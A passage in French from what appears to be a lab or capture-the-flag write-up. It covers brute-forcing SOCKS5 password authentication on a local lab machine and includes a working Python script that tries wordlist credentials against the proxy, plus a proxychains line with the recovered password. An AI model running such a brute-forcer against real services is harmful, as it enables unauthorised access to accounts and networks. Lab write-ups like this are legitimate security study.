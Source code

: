 Soit un total de 15 minutes de bute force plus le temps de l'énumération web sur un serveur peu véloce, ça commence à faire :-/ Au moins on a le mot de passe !  

Une étude des paquets via Wireshark permet de constater que le protocole SOCKS est plutôt simple. Sans doute trop simple même car tous les paquets ne partagent pas un entête commun (le serveur s'attend à les recevoir dans un ordre bien défini du coup ça lui fait une belle jambe). Le point négatif c'est qu'il est difficile d'apliquer un filtre Wireshark si on espérait filtrer sur les réponses d'authentification réussies.  

Pour réécrire le brute force en Python ça donnerait ceci (j'ai utilisé la méthode *to\_bytes* qui est assez récente) :  

```python
import socket
import sys

userfile = sys.argv[1]
passfile = sys.argv[2]

def get_packet(username: str, password: str) -> bytes:
    buff = b"\x01"
    buff += len(username).to_bytes(1, byteorder="little")
    buff += username.encode()
    buff +=  len(password).to_bytes(1, byteorder="little")
    buff += password.encode()
    return buff

with open(userfile, encoding="utf-8", errors="replace") as fd_user:
    for line  in fd_user:
        user = line.strip()
        with open(passfile, encoding="utf-8", errors="replace") as fd_pass:
            for line in fd_pass:
                password = line.strip()

                sock = socket.socket()
                sock.connect(("192.168.56.9", 1080))
                sock.send(b"\x05\x03\x00\x01\x02")  # ask for auth methods
                sock.recv(1024)  # get auth methods
                sock.send(get_packet(user, password))  # try user/password auth
                response = sock.recv(1024)
                if response != b"\x01\x01":
                    print(f"success with {user} / {password}")

                sock.close()
```

On va pouvoir configurer [ProxyChains-NG](https://github.com/rofl0r/proxychains-ng) pour faire transiter nos paquets via ce proxy socks. Il suffit de spécifier la ligne suivante en fin du fichier *proxychains.conf* (sous la section *[ProxyList]* :  

```plain
socks5 192.168.56.9 1080 Prime tinkerbell1
```

Et pour Firefox la configuration Proxy Toggle :  
